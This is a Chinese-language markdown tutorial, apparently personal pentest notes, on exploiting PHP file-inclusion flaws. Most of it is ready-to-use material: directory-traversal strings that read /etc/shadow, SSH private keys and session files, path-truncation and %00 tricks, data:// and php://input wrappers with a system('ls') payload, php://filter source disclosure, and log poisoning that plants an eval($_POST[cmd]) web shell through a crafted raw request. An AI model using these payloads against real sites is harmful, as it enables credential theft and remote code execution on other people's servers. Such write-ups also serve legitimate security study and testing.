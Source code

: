 ```yaml
---
title: "php 文件包含"
date: 2016-02-24 16:47
---
```


## 与文件包含相关的函数

require找不到被包含的文件时会产生致命错误，并停止脚本运行。

include找不到被包含的文件时只会产生警告，脚本将继续运行。

include_once与include类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含。

require_once与require类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含

## 本地文件包含(LFI--Local File Include)

* 普通本地包含

只要网站支持上传，上传任意后缀文件，被包含的文件中含有效的php代码，则引入当前文件执行，若不含有效php代码，则直接输出文件内容

样例：

```
# lfi.php
<?php include($_GET['file']); ?>
```

利用

* 注入有效 php 代码

```
echo "<?php phpinfo();" >> lfi.txt

# browser
http://127.0.0.1/lfi.php?file=lfi.txt
```

* 目录遍历

```
# linux 这两个文件存储着所有文件的路径，需要root权限
?file=../../../../../../../var/lib/mlocate/mlocate.db
?file=../../../../../../../var/lib/locate.db
```

* 包含错误日志

```
?ile=../../../../../../../../var/log/apache/error.log
```

* 获取web目录或配置文件

```
?file=../../../../../../../../usr/local/apache2/conf/httpd.conf
```

* 包含上传附件

```
?file=../attachment/media/xx.file
```

* 读取 session 文件

```
?file=../../../../../../../tmp/sess_xxxxx
```

session文件一般在/tmp目录下，格式为sess_[your phpsessid value]，有时候也有可能在/var/lib/php5之类的，在此之前建议先读取配置文件。在某些特定的情况下如果你能够控制session的值，也许你能够获得一个shell

* 如果拥有root权限还可以试试读这些东西：

```
/root/.ssh/authorized_keys

/root/.ssh/id_rsa

/root/.ssh/id_rsa.keystore

/root/.ssh/id_rsa.pub

/root/.ssh/known_hosts

/etc/shadow

/root/.bash_history

/root/.mysql_history

/proc/self/fd/fd[0-9]* (文件标识符)

/proc/mounts

/proc/config.gz
```

## 截断本地包含

样例：

```
include($a.".php");
```

* 长文件名截断

php版本小于5.2.8(?)可以成功

windows和linux的文件名长度是有限制的，超过其长度的会被忽略，通常情况下windows的截断长度为260，linux的长度为4096，这一不用在意具体长度，只要把需要截断的字符串挤到后面就可以了

样例：

```
<?php  include_once($_GET['f'].".php"); ?>  

# POC
http://127.0.0.1/test/123.php?f=test.txt/././....../

```
实例：

[长文件名截断: 济南大学主站本地文件包含导致代码执行][3]

1windows

windows在文件名后加/.  或 \.都是可以的

```
\.
./
/
\
```

2linux

```
./
/
```

* 点号截断：

?file=../../../../../../../../../boot.ini/......

(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)

* %00 截断包含

> gpc=off 和 php 版本限制

## 远程包含

allow_url_include=On 就是远程文件包含，Off就是本地文件包含

> “zlib://”和“ogg://”等方式绕过 远程文件包含(RFI)

* php 自带协议


data://

> php5.0以下 和 php5.2 版本有效,allow_url_include=On

```
file=data://text/plain;base64,SSBsb3ZlIFBIUAo=
```

php://input -- php的输入流，可以读到没有处理过的POST数据

>  php5.0以下 和 php5.2 版本有效, allow_url_include=On


# firefox hackbar
?page=php://input

post:
<?php system('ls');?>
```

php://filter -- 利用主要是利用了resource和vonvert，这样可以读取到php的代码。

> php5.0以下 和 php5.2 版本有效

```
?id=php://filter/convert.base64-encode/resource=test.txt 

?id=php://filter/convert.base64-encode/resource=http://127.0.0.1/test/test.txt

```

php://fd

> php 5.3.6中新增加


## 日记包含高级利用

[济南大学主站本地文件包含导致代码执行][3]

限制

> 类似http://www.exp.com/index<?php eval($_POST[cmd]);?>.php 
这样的提交，某些WEB服务器将会把空格做HTTP编码转成%20写入web日志,如果PHP包含<?php%20eval($_POST[cmd]);?>这样的语句肯定是不会成功的，所以我们必须把空格真正的写入WEB日志.

突破

```
<?/**/eval($_POST[cmd]);/**/?>
```

1.short_open_tag=on
这类情况写入web日志，只能在short_open_tag=on的情况下才能有效，当short_open_tag=off时，PHP将不支持<?/**/eval($_POST[cmd]);/**/?>这样的短语句

2.WEB服务器一个奇怪的特性

如果没有返回响应而WEB服务器又接受了请求，那么请求的内容将原封不动的写入WEB日志，不会进行HTTP编码.

这样我们想个办法一直与WEB服务器保持TCP连接，不让WEB服务器处理响应返回，然后再由客户端的我们中断这次TCP连接，说得这么复杂其实很容易实现.只要在HTTP请求的数据包中去掉Connection HTTP标头值。

利用NC伪造没有Connection HTTP标头的请求包：

```
GET /index< >.php HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727)
Host: 192.168.3.44
```

你会发现WEB服务器一直不会返回响应，直到我们客户端断开这次连接，这个邪恶的空格便写入了WEB日志！

[3]: http://www.wooyun.org/bugs/wooyun-2011-02236

[5]: http://php.net/manual/zh/features.file-upload.post-method.php
